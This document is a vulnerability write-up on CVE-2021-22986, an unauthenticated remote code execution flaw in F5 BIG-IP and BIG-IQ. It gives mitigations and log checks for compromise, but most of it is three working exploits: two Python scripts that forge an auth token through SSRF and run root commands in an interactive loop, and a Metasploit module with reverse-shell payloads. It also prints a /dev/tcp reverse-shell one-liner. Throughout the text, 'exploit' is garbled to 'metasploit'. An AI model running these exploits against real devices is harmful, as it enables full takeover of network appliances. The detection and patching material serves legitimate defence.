

# CVE-2021-22986

**Date Published:** 31/03/2021

F5 BIG-IP and BIG-IQ Centralized Management iControl REST Unauthenticated Remote Code Execution Vulnerability.


## Affected Software: BIG-IP, BIG-IQ (f5)

F5 BIG-IP is a smart and flexible product suite that includes modules for traffic management, security, access, and optimization, providing a broad set of application services for ensuring reliable, secure, and fast delivery of applications. BIG-IQ Centralized Management, on the other hand, is a platform that provides a unified point of control for managing and automating BIG-IP devices and modules, enabling administrators to centrally manage security, policies, licensing, and more, thereby simplifying operations and increasing efficiency.

BIG-IP Versions:
 - 16.0.x before 16.0.1.1,
 - 15.1.x before 15.1.2.1,
 - 14.1.x before 14.1.4,
 - 13.1.x before 13.1.3.6,
 - 12.1.x before 12.1.5.3,

BIG-IQ Versions:
 - 7.1.0.x before 7.1.0.3,
 - 7.0.0.x before 7.0.0.2,

It may also be present in software versions that have reached the End Of Software Development Stage



## Vulnerability

This vulnerability allows for unauthenticated attackers with network access to the iControl REST interface, through the BIG-IP management interface and self IP addresses, to execute arbitrary system commands, create or delete files, and disable services. This vulnerability can only be metasploited through the control plane and cannot be metasploited through the data plane. metasploitation can lead to complete system compromise. The BIG-IP system in Appliance mode is also vulnerable.

An attack can metasploit a pre-authentication server-side request forgery vulnerability in the iControl Rest API */mgmt/shared/authn/login* endpoint to generate an X-F5-Auth-Token that allows for remote code execution without authentication.

### Assumptions

Attacker has network access

### Severity

**Base Score:** 9.8 Critical

**Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
 - **Attack Vector (AV):** Network
 - **Attack Complexity (AC):** Low
 - **Priviledges Required (PR):** None
 - **User Interaction (UI):** None
 - **Scope (S):** Unchanged
 - **Confidentiality (C):** High
 - **Integrity (I):** High
 - **Availability (A):** High


**Impact Score:** 5.9

**metasploitability Score:** 3.9

**Weakness Enumeration:** CWE-918: Server-Side Request Forgery (SSRF)

## Required Action

### Fixes:
Apply updates

### Mitigation:

#### Block iControl REST access through the self IP address


All access to the iControl REST Interface of a BIG-IP system can be blocked through the use of self IP addresses. Just set 'Port Lockdown' to 'Allow None' for each self IP. If any ports must be opened, use 'Allow Custom' but ensure iControl REST access is blocked. By default, iControl REST listens on TCP port 443 or 8443 on single NIC BIG-IP VE instances. If the default port is changed, access to the new port should be blocked.

Note: Performing this action prevents all access to the Configuration utility and iControl REST using the self IP address. These changes may also impact other services, including breaking high availability (HA) configurations.

#### Block iControl REST access through the management interface

To mitigate this vulnerability for affected F5 products, it is recommended to limit management access exclusively to users and devices that are deemed trustworthy. Furthermore, this access should be facilitated strictly over a network that has been secured and verified for its integrity.

## Technical Assessment

The metasploitation of this vulnerability, CVE-2021-22986, necessitates a two-step process. Initially, the SSRF vulnerability is leveraged to bypass authentication and obtain an authenticated session token. This session can then be utilized to interact with REST API endpoints that would typically require authentication.

The *tm/util/bash* endpoint is particularly beneficial for an attacker as it permits an authenticated user to execute commands on the underlying server with root privileges. Given that the REST API is designed for remote administration, there are numerous endpoints that an attacker could potentially metasploit.

In the patches released by F5, a command injection vulnerability was also addressed in the *tm/access/bundle-install-tasks* REST endpoint. This could serve as an alternate method for executing arbitrary commands once authentication has been bypassed.

## Indicators of Compromise

### F5 iHealth indicator flags of compromise in uploaded QKView diagnostic files.

F5's iHealth diagnostic tool includes heuristics designed to identify potential indicators of compromise in the QKView diagnostic files that users upload. Thus allowing for early detection and mitigation of any potential threats related to this vulnerability.

F5 has iHealth heuristics designed to detect the following:
 - Unknown processes running (Heuristic H511618)
 - When the Configuration utility iControl REST  interface has been exposed to the Internet through the management interface (H444724)
 - When a self IP address has Port Lockdown set to Allow All (H458565)

### Manual Checking of Compromise:

Look for X-F5-Auth-Token doesn't have value in `/var/log/restjavad.*.log`.

To do so, enter the following command:

```
zgrep -e "X-F5-Auth-Token doesn't have value" /var/log/restjavad.*.log
```

The command output may appear similar to the following example on devices that attackers attempted to compromise:

```
/var/log/restjavad.0.log:[WARNING][2347][23 Mar 2021 08:58:30 UTC][com.f5.rest.app.RestServerServlet] X-F5-Auth-Token doesn't have value, so skipping 
```

*Note: Under limited ordinary circumstances, it is possible that log entries containing the text X-F5-Auth-Token doesn't have value may appear in /var/log/restjavad.\*.log.*

When you see the **X-F5-Auth-Token doesn't have value** message, you can compare any logs found in */var/log/restjavad.\*.log* with those found in */var/log/audit* and */var/log/restjavad-audit.\*.log* that share approximately the same timestamp.

Use this comparison to determine the intent and potential impact of these logs. For example, you may see the following entries in these logs:

**Entry in '/var/log/audit'**

```
Mar 23 00:58:30 hostname notice icrd_child[13385]: 01420002:5: AUDIT - pid=13385 user=admin folder=/Common module=(tmos)# status=[Command OK] cmd_data=run util bash -c id 
```
Entry in '**/var/log/restjavad-audit.0.log**'

```
[I][2348][23 Mar 2021 08:58:30 UTC][ForwarderPassThroughWorker] {"user":"local/admin","method":"POST","uri":"http://localhost:8100/mgmt/tm/util/bash","status":200,"from":"nnn.nnn.nnn.nnn"}
```

If the logs display any entries, this may indicate that a REST request with empty **X-F5-Auth-Token** value from IP address **nnn.nnn.nnn.nnn** invokes command **run util bash -c id**. You must closely examine the source IP addresses in any */var/log/restjavad-audit.\*.log* and */var/log/audit\** entries and compare them to IP addresses you know make legitimate REST calls against the device.

Other indicators of compromise may include unexpected modifications to any files, configurations, or running processes.

## Metasploit

The metasploit for this specific vulnerability, first attempts to leak an authentication token from the target system by sending a POST request to the */mgmt/shared/authn/login* endpoint. If the response does not contain a token, the function tries a second method by sending a POST request to the */mgmt/tm/util/bash* endpoint with a different set of headers and data.

If the initial attempt to leak the token is successful, the metasploit extracts the token from the response and enters an infinite loop, allowing the user to continuously input commands to be executed on the target system. In this loop, the metasploit sends a POST request to the */mgmt/tm/util/bash* endpoint with the leaked token in the headers and the user-inputted command in the data. If the response contains 'commandResult', the metasploit prints the result of the command. If not, it prints an error message and exits.

If the second method is successful and the response contains 'commandResult', the metasploit enters an infinite loop, similar to the one in the first method.

An attacker could provide a command such as `bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1` to open a reverse shell on the target system with root access.

### Examples:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import sys

def metasploit(url, command):
	#print('(*) Tested: %s'%(url))
	vuln_leak_token = url + '/mgmt/shared/authn/login'
	data_leak_token = {"bigipAuthCookie":"","username":"admin","loginReference":{"link":"/shared/gossip"},"userReference":{"link":"https://localhost/mgmt/shared/authz/users/admin"}}
	try_leak = requests.post(vuln_leak_token, headers={"User-Agent": "hello-world","Content-Type":"application/x-www-form-urlencoded"}, json=data_leak_token, verify=False, timeout=15)
	if "/mgmt/shared/authz/tokens/" not in try_leak.text:
		print('(-) Cant leak token!!!')
		print('(*) Tested Method 2') #im not sure about that...
		headers_poc2 = {
		    'User-Agent': 'hello-world',
		    'Content-Type': 'application/json',
		    'X-F5-Auth-Token': '',
		    'Authorization': 'Basic YWRtaW46QVNhc1M='
		}
		data = {"command": "run", "utilCmdArgs": "-c '%s'"%(command)}
		check_url = url + '/mgmt/tm/util/bash'
		try:
			r = requests.post(url=check_url, json=data, headers=headers_poc2, verify=False, timeout=20)
			if r.status_code == 200 and 'commandResult' in r.text:
				while True:
					cmd = input("(:CMD)> ")
					data_1 = {"command": "run", "utilCmdArgs": "-c '%s'"%(cmd)}
					r = requests.post(url=check_url, json=data, headers=headers_poc2, verify=False)
					if r.status_code == 200 and 'commandResult' in r.text:
						print(r.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
			else:
				print('(-) Not vuln...')
				exit(0)
		except Exception:
			print('ERROR Connect')
	print('(+) Extract token: %s'%(try_leak.text.split('"selfLink":"localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0]))
	while True:
		cmd = input("(:CMD)> ")
		headers = {
		"Content-Type": "application/json",
		"X-F5-Auth-Token": "%s"%(try_leak.text.split('"selfLink":"localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0])
		}
		data_json = {"command": "run", "utilCmdArgs": "-c \'%s\'"%(cmd)}
		vuln_rce = url + '/mgmt/tm/util/bash'
		rce_req = requests.post(vuln_rce, headers=headers, json=data_json, verify=False, timeout=15)
		if rce_req.status_code == 200 and 'commandResult' in rce_req.text:
			print(rce_req.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
		else:
			print('(-) Not vuln...')
			exit(0)
if(len(sys.argv) < 2):
	print('\r\n--------------------\n+ Author: github.com/Udyz\n+ twitter.com/lotusdll\n--------------------\n[*] USAGE: ./%s <host>\n'%(sys.argv[0]))
	exit(0)
try:
	metasploit('https://'+sys.argv[1], "whoami")
except KeyboardInterrupt:
	exit(0)
except(requests.ConnectionError, requests.ConnectTimeout, requests.ReadTimeout) as e:
	print(e)
	exit()
```

```python
# metasploit Title: F5 BIG-IP 16.0.x - iControl REST Remote Code Execution (Unauthenticated)
# metasploit Author: Al1ex
# Vendor Homepage: https://www.f5.com/products/big-ip-services
# Version: 16.0.x before 16.0.1.1, 15.1.x before 15.1.2.1, 14.1.x before 14.1.4, 13.1.x before 13.1.3.6, and 12.1.x before 12.1.5.3 amd BIG-IQ 7.1.0.x before 7.1.0.3 and 7.0.0.x before 7.0.0.2
# CVE : CVE-2021-22986

import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import sys


def title():
    print('''
      ______ ____    ____  _______       ___     ___    ___    __        ___    ___     ___     ___      __   
     /      |\   \  /   / |   ____|     |__ \   / _ \  |__ \  /_ |      |__ \  |__ \   / _ \   / _ \    / /   
    |  ,----' \   \/   /  |  |__    ______ ) | | | | |    ) |  | |  ______ ) |    ) | | (_) | | (_) |  / /_   
    |  |       \      /   |   __|  |______/ /  | | | |   / /   | | |______/ /    / /   \__, |  > _ <  | '_ \  
    |  `----.   \    /    |  |____       / /_  | |_| |  / /_   | |       / /_   / /_     / /  | (_) | | (_) | 
     \______|    \__/     |_______|     |____|  \___/  |____|  |_|      |____| |____|   /_/    \___/   \___/                                                                                                                                                                             
    
                                Author:Al1ex@Heptagram
                                Github:https://github.com/Al1ex
    ''')   

def metasploit(url):
  target_url = url + '/mgmt/shared/authn/login'
  data = {
    "bigipAuthCookie":"",
    "username":"admin",
    "loginReference":{"link":"/shared/gossip"},
    "userReference":{"link":"https://localhost/mgmt/shared/authz/users/admin"}
  }
  headers = {
    "User-Agent": "hello-world",
    "Content-Type":"application/x-www-form-urlencoded"
  }
  response = requests.post(target_url, headers=headers, json=data, verify=False, timeout=15)
  if "/mgmt/shared/authz/tokens/" not in response.text:
    print('(-) Get token fail !!!')
    print('(*) Tested Method 2:') 
    header_2 = {
        'User-Agent': 'hello-world',
        'Content-Type': 'application/json',
        'X-F5-Auth-Token': '',
        'Authorization': 'Basic YWRtaW46QVNhc1M='
    }
    data_2 = {
      "command": "run", 
      "utilCmdArgs": "-c whoami"
    }
    check_url = url + '/mgmt/tm/util/bash'
    try:
      response2 = requests.post(url=check_url, json=data_2, headers=header_2, verify=False, timeout=20)
      if response2.status_code == 200 and 'commandResult' in response2.text:
        while True:
          cmd = input("(:CMD)> ")
          data_3 = {"command": "run", "utilCmdArgs": "-c '%s'"%(cmd)}
          r = requests.post(url=check_url, json=data_3, headers=header_2, verify=False)
          if r.status_code == 200 and 'commandResult' in r.text:
            print(r.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
      else:
        print('(-) Not vuln...')
        exit(0)
    except Exception:
      print('ERROR Connect')
  print('(+) Extract token: %s'%(response.text.split('"selfLink":"https://localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0]))
  while True:
    cmd = input("(:CMD)> ")
    headers = {
      "Content-Type": "application/json",
      "X-F5-Auth-Token": "%s"%(response.text.split('"selfLink":"https://localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0])
    }
    data_json = {
      "command": "run", 
      "utilCmdArgs": "-c \'%s\'"%(cmd)
    }
    exp_url= url + '/mgmt/tm/util/bash'
    exp_req = requests.post(exp_url, headers=headers, json=data_json, verify=False, timeout=15)
    if exp_req.status_code == 200 and 'commandResult' in exp_req.text:
      print(exp_req.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
    else:
      print('(-) Not vuln...')
      exit(0)

if __name__ == '__main__':
    title()
    if(len(sys.argv) < 2):
      print('[+] USAGE: python3 %s https://<target_url>\n'%(sys.argv[0]))
      exit(0)
    else:
      metasploit(sys.argv[1])
```

```python
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::metasploit::Remote

  Rank = ExcellentRanking

  prepend Msf::metasploit::Remote::AutoCheck
  include Msf::metasploit::Remote::HttpClient
  include Msf::metasploit::CmdStager

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'F5 iControl REST Unauthenticated SSRF Token Generation RCE',
        'Description' => %q{
          This module metasploits a pre-auth SSRF in the F5 iControl REST API's
          /mgmt/shared/authn/login endpoint to generate an X-F5-Auth-Token that
          can be used to execute root commands on an affected BIG-IP or BIG-IQ
          device. This vulnerability is known as CVE-2021-22986.

          CVE-2021-22986 affects the following BIG-IP versions:

          * 12.1.0 - 12.1.5
          * 13.1.0 - 13.1.3
          * 14.1.0 - 14.1.3
          * 15.1.0 - 15.1.2
          * 16.0.0 - 16.0.1

          And the following BIG-IQ versions:

          * 6.0.0 - 6.1.0
          * 7.0.0
          * 7.1.0

          Tested against BIG-IP Virtual Edition 16.0.1 in VMware Fusion.
        },
        'Author' => [
          'wvu', # Analysis and metasploit
          'Rich Warren' # First blood (RCE) and endpoint collaboration
        ],
        'References' => [
          ['CVE', '2021-22986'],
          ['URL', 'https://support.f5.com/csp/article/K03009991'],
          ['URL', 'https://attackerkb.com/assessments/f6b19d24-b24e-4abd-98cf-2988d7424311'],
          ['URL', 'https://research.nccgroup.com/2021/03/18/rift-detection-capabilities-for-recent-f5-big-ip-big-iq-icontrol-rest-api-vulnerabilities-cve-2021-22986/']
          # https://clouddocs.f5.com/products/big-iq/mgmt-api/v7.0.0/ApiReferences/bigiq_public_api_ref/r_auth_login.html
        ],
        'DisclosureDate' => '2021-03-10', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => ['unix', 'linux'],
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => true,
        'Targets' => [
          [
            'Unix Command',
            {
              'Platform' => 'unix',
              'Arch' => ARCH_CMD,
              'Type' => :unix_cmd,
              'DefaultOptions' => {
                'PAYLOAD' => 'cmd/unix/reverse_python_ssl'
              }
            }
          ],
          [
            'Linux Dropper',
            {
              'Platform' => 'linux',
              'Arch' => [ARCH_X86, ARCH_X64],
              'Type' => :linux_dropper,
              'DefaultOptions' => {
                'CMDSTAGER::FLAVOR' => :bourne,
                'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
              }
            }
          ]
        ],
        'DefaultTarget' => 0,
        'DefaultOptions' => {
          'SSL' => true
        },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION], # Only one concurrent session
          'SideEffects' => [
            IOC_IN_LOGS, # /var/log/restjavad.0.log (rotated)
            ACCOUNT_LOCKOUTS, # Unlikely with bigipAuthCookie
            ARTIFACTS_ON_DISK # CmdStager
          ]
        }
      )
    )

    register_options([
      Opt::RPORT(443),
      OptString.new('TARGETURI', [true, 'Base path', '/']),
      OptString.new('USERNAME', [true, 'Valid admin username', 'admin']),
      OptString.new('ENDPOINT', [false, 'Custom token generation endpoint'])
    ])

    register_advanced_options([
      OptFloat.new('CmdExecTimeout', [true, 'Command execution timeout', 3.5])
    ])
  end

  def username
    datastore['USERNAME']
  end

  def user_reference_endpoint
    normalize_uri(target_uri.path, '/mgmt/shared/authz/users', username)
  end

  def check
    generate_token_ssrf ? CheckCode::Vulnerable : CheckCode::Safe
  end

  def metasploit
    return unless (@token ||= generate_token_ssrf)

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :unix_cmd
      execute_command(payload.encoded)
    when :linux_dropper
      execute_cmdstager
    end
  end

  def generate_token_ssrf
    print_status('Generating token via SSRF...')
    vprint_status("Username: #{username}")
    vprint_status("Endpoint: #{login_reference_endpoint}")

    res = send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/mgmt/shared/authn/login'),
      'ctype' => 'application/json',
      'data' => {
        'username' => username,
        'bigipAuthCookie' => '',
        'authProviderName' => 'local',
        'loginReference' => {
          'link' => "https://localhost#{login_reference_endpoint}"
        },
        'userReference' => {
          'link' => "https://localhost#{user_reference_endpoint}"
        }
      }.to_json
    )

    unless res&.code == 200 && (@token = res.get_json_document.dig('token', 'token'))
      print_error('Failed to generate token')
      return
    end

    print_good("Successfully generated token: #{@token}")
    @token
  end

  def execute_command(cmd, _opts = {})
    bash_cmd = "eval $(echo #{Rex::Text.encode_base64(cmd)} | base64 -d)"

    print_status("Executing command: #{bash_cmd}")

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/mgmt/tm/util/bash'),
      'ctype' => 'application/json',
      'headers' => {
        'X-F5-Auth-Token' => @token
      },
      'data' => {
        'command' => 'run',
        'utilCmdArgs' => "-c '#{bash_cmd}'"
      }.to_json
    }, datastore['CmdExecTimeout'])

    unless res
      print_warning('Command execution timed out')
      return
    end

    json = res.get_json_document

    unless res.code == 200 && json['kind'] == 'tm:util:bash:runstate'
      fail_with(Failure::PayloadFailed, 'Failed to execute command')
    end

    print_good('Successfully executed command')

    return unless (cmd_result = json['commandResult'])

    vprint_line(cmd_result)
  end

  def login_reference_endpoint
    if datastore['ENDPOINT']
      return normalize_uri(target_uri.path, datastore['ENDPOINT'])
    end

    @token_generation_endpoint ||= token_generation_endpoints.sample

    normalize_uri(target_uri.path, @token_generation_endpoint)
  end

  # Usable token generation endpoints between versions 12.1.4 and 16.0.1
  def token_generation_endpoints
    %w[
      /access/file-path-manager/indexing
      /cm/autodeploy/cluster-software-images/indexing
      /cm/autodeploy/qkview/indexing
      /cm/autodeploy/software-images/indexing
      /cm/autodeploy/software-volume-install/indexing
      /cm/system/authn/providers/tmos/1f44a60e-11a7-3c51-a49f-82983026b41b/users/indexing
      /cm/system/authn/providers/tmos/indexing
      /mgmt/shared/analytics/avr-proxy-tasks
      /mgmt/shared/gossip
      /mgmt/shared/gossip-peer-refresher
      /mgmt/shared/identified-devices/config/device-refresh
      /mgmt/shared/save-config
      /mgmt/tm/shared/bigip-failover-state
      /shared/analytics/avr-proxy-tasks
      /shared/analytics/avr-proxy-tasks/indexing
      /shared/analytics/event-aggregation-tasks/indexing
      /shared/analytics/event-analysis-tasks/indexing
      /shared/authn/providers/local/groups/indexing
      /shared/authz/remote-resources/indexing
      /shared/authz/resource-groups/indexing
      /shared/authz/roles/indexing
      /shared/authz/tokens/indexing
      /shared/chassis-framework-upgrades/indexing
      /shared/device-discovery-tasks/indexing
      /shared/device-group-key-pairs/indexing
      /shared/echo/indexing
      /shared/framework-info-tasks/indexing
      /shared/framework-upgrades/indexing
      /shared/gossip
      /shared/gossip-peer-refresher
      /shared/group-task/indexing
      /shared/iapp/blocks/indexing
      /shared/iapp/build-package/indexing
      /shared/iapp/health-prefix-map/indexing
      /shared/iapp/package-management-tasks/indexing
      /shared/iapp/template-loader/indexing
      /shared/identified-devices/config/device-refresh
      /shared/nodejs/loader-path-config/indexing
      /shared/package-deployments/indexing
      /shared/resolver/device-groups/indexing
      /shared/resolver/device-groups/tm-shared-all-big-ips/devices/indexing
      /shared/root-framework-upgrades/indexing
      /shared/rpm-tasks/indexing
      /shared/save-config
      /shared/snapshot-task/indexing
      /shared/snapshot/indexing
      /shared/stats-information/indexing
      /shared/storage/tasks/indexing
      /shared/task-scheduler/scheduler/indexing
      /shared/tmsh-shell/indexing
      /tm/analytics/afm-sweeper/generate-report/indexing
      /tm/analytics/afm-sweeper/report-results/indexing
      /tm/analytics/application-security-anomalies/generate-report/indexing
      /tm/analytics/application-security-anomalies/report-results/indexing
      /tm/analytics/application-security-network/generate-report/indexing
      /tm/analytics/application-security-network/report-results/indexing
      /tm/analytics/application-security/generate-report/indexing
      /tm/analytics/application-security/report-results/indexing
      /tm/analytics/asm-bypass/generate-report/indexing
      /tm/analytics/asm-bypass/report-results/indexing
      /tm/analytics/asm-cpu/generate-report/indexing
      /tm/analytics/asm-cpu/report-results/indexing
      /tm/analytics/asm-memory/generate-report/indexing
      /tm/analytics/asm-memory/report-results/indexing
      /tm/analytics/cpu/generate-report/indexing
      /tm/analytics/cpu/report-results/indexing
      /tm/analytics/disk-info/generate-report/indexing
      /tm/analytics/disk-info/report-results/indexing
      /tm/analytics/dns/generate-report/indexing
      /tm/analytics/dns/report-results/indexing
      /tm/analytics/dos-l3/generate-report/indexing
      /tm/analytics/dos-l3/report-results/indexing
      /tm/analytics/http/generate-report/indexing
      /tm/analytics/http/report-results/indexing
      /tm/analytics/ip-intelligence/generate-report/indexing
      /tm/analytics/ip-intelligence/report-results/indexing
      /tm/analytics/ip-layer/generate-report/indexing
      /tm/analytics/ip-layer/report-results/indexing
      /tm/analytics/lsn-pool/generate-report/indexing
      /tm/analytics/lsn-pool/report-results/indexing
      /tm/analytics/memory/generate-report/indexing
      /tm/analytics/memory/report-results/indexing
      /tm/analytics/network/generate-report/indexing
      /tm/analytics/network/report-results/indexing
      /tm/analytics/pem/generate-report/indexing
      /tm/analytics/pem/report-results/indexing
      /tm/analytics/proc-cpu/generate-report/indexing
      /tm/analytics/proc-cpu/report-results/indexing
      /tm/analytics/protocol-security-http/generate-report/indexing
      /tm/analytics/protocol-security-http/report-results/indexing
      /tm/analytics/protocol-security/generate-report/indexing
      /tm/analytics/protocol-security/report-results/indexing
      /tm/analytics/sip/generate-report/indexing
      /tm/analytics/sip/report-results/indexing
      /tm/analytics/swg-blocked/generate-report/indexing
      /tm/analytics/swg-blocked/report-results/indexing
      /tm/analytics/swg/generate-report/indexing
      /tm/analytics/swg/report-results/indexing
      /tm/analytics/tcp-analytics/generate-report/indexing
      /tm/analytics/tcp-analytics/report-results/indexing
      /tm/analytics/tcp/generate-report/indexing
      /tm/analytics/tcp/report-results/indexing
      /tm/analytics/udp/generate-report/indexing
      /tm/analytics/udp/report-results/indexing
      /tm/analytics/vcmp/generate-report/indexing
      /tm/analytics/vcmp/report-results/indexing
      /tm/analytics/virtual/generate-report/indexing
      /tm/analytics/virtual/report-results/indexing
      /tm/shared/bigip-failover-state
      /tm/shared/sys/backup/indexing
    ]
  end

end
```

## Sources
- https://nvd.nist.gov/vuln/detail/CVE-2021-22986
- https://www.cve.org/CVERecord?id=CVE-2021-22986
- https://www.f5.com/products/big-ip-services
- https://my.f5.com/manage/s/article/K03009991
- https://packetstormsecurity.com/files/162059/F5-iControl-Server-Side-Request-Forgery-Remote-Command-Execution.html
 - https://packetstormsecurity.com/files/162066/F5-BIG-IP-16.0.x-Remote-Code-Execution.html
 - https://cwe.mitre.org/data/definitions/918.html
 - https://github.com/Al1ex/CVE-2021-22986
 - https://research.nccgroup.com/2021/03/18/rift-detection-capabilities-for-recent-f5-big-ip-big-iq-icontrol-rest-api-vulnerabilities-cve-2021-22986/
 - https://github.com/Udyz/CVE-2021-22986-SSRF2RCE/blob/main/CVE-2021-22986.py
 - https://www.metasploit.com/